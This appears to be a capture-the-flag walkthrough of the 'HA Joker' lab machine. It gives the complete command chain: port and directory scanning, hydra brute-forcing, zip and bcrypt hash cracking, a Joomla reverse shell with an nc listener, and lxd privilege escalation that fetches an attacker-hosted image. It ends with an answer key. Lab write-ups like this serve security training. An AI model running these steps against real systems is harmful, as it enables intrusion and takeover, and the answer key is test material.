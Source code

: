 # HA Joker CTF - Medium

```shell
rustscan -a 10.10.117.221 --range 0-65535 --ulimit 5000 -- -sV

feroxbuster -u http://10.10.117.221 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent
#scanning port 80 webpage

hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 10.10.117.221 http-get

feroxbuster -u http://10.10.117.221:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent
#scanning port 8080 webpage

zip2john backup.zip > backuphash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt backuphash.txt

grep -inr "duper"
#gives us the line containing the username and hash
#from joomladb.sql

hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
#crack the hash

nc -nvlp 4444
#setup listener and get reverse shell from Joomla templates

#in reverse shell
id
#we are www-data
#we are in lxd group

python3 -c 'import pty;pty.spawn("/bin/bash")'
#upgrade shell

#referring to lxd privesc article on Google
#in attacker machine
git clone  https://github.com/saghul/lxd-alpine-builder.git

cd lxd-alpine-builder

./build-alpine
#this builds alpine image, we can transfer this to victim now

python3 -m http.server

#in victim session
cd /tmp

wget http://10.14.31.212:8000/alpine-v3.16-x86_64-20221024_0528.tar.gz
#download the tar archive

#add image to lxd
lxc image import ./alpine-v3.16-x86_64-20221024_0528.tar.gz --alias myimage

lxc image list

lxc init myimage ignite -c security.privileged=true

lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

lxc start ignite

lxc exec ignite /bin/sh
#we get root shell

id
#root

cd /mnt/root/root

ls -la
#we get flag
```

```markdown
Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1
  * 80 - http - Apache httpd 2.4.29 (Ubuntu)
  * 8080 - http - Apache httpd 2.4.29 (Ubuntu)

The webpage on port 80 does not need any authentication, so we can start by enumerating its directories.

On the other hand, port 8080 has basic authentication mechanism, so we will brute-force it later.

We can go through the webpage on port 80; it contains a lot of quote-images related to Joker.

Using Inspect, we can view the source code, but it does not contain any useful info.

Going back to the enumerated directories, we have:

  * /css
  * /img
  * /secret.txt
  * /phpinfo.php

/secret.txt contains a conversation between Batman and Joker
/phpinfo.php contains a lot of info about the backend, we can save it for later.

Now, we can attempt to brute-force the basic auth mechanism on port 8080, with the help of Hydra.

By brute-force, we get the creds joker:hannah; logging into port 8080 leads us to a blog page.

Going through the webpage shows that it is using Joomla CMS; we can use feroxbuster to scan for directories.

Meanwhile, using common-sense, checking /administrator directory leads us to the admin login section.

We are also told to look for a backup file; we find a file - /backup.zip

Now, as the .zip file is encrypted, we can use zip2john and try to crack this.

We get the password as 'hannah', again, using john.

Now we can go through the extracted files and check for any info.

Instead of going through each and every file, we can work smartly - we are told to look for a 'super duper user'; we can use grep to search the word 'duper'.

This gives us a line from db/joomladb.sql file; the super duper user is admin.

We can crack the hash that we found using hashcat; we get the cleartext "abcd1234"

Thus we can log into the administrator section using creds admin:abcd1234, we just need to find out a way to get reverse shell.

Simply Googling for 'Joomla reverse shell' gives us multiple ways to get access; we can use any technique to get reverse shell.

Once we setup and get reverse shell, (by viewing the Template preview), we can go start enumeration of the machine.

Using 'id', we can see that we are part of the lxd group; we can exploit this feature.

Googling for 'lxd privesc' gives us an article which covers this aspect - <https://www.hackingarticles.in/lxd-privilege-escalation/>

Replicating the steps given in the blog, we get root.
```

1. What version of Apache is it? - 2.4.29

2. What port on this machine need not to be authenticated by user and password? - 80

3. There is a file on this port that seems to be secret, what is it? - secret.txt

4. There is another file which reveals information of the backend, what is it? - phpinfo.php

5. What user do you think it is? - joker

6. What port on this machine need to be authenticated by Basic Authentication Mechanism? - 8080

7. What is that password? - hannah

8. What directory looks like as admin directory? - /administrator

9. There is a backup file, what is this file? - backup.zip

10. What is the password? - hannah

11. What is the super duper user? - admin

12. What is the password? - abcd1234

13. What is the owner of this session? - www-data

14. What is this group? - lxd

15. What is the name of the file in the /root directory? - final.txt
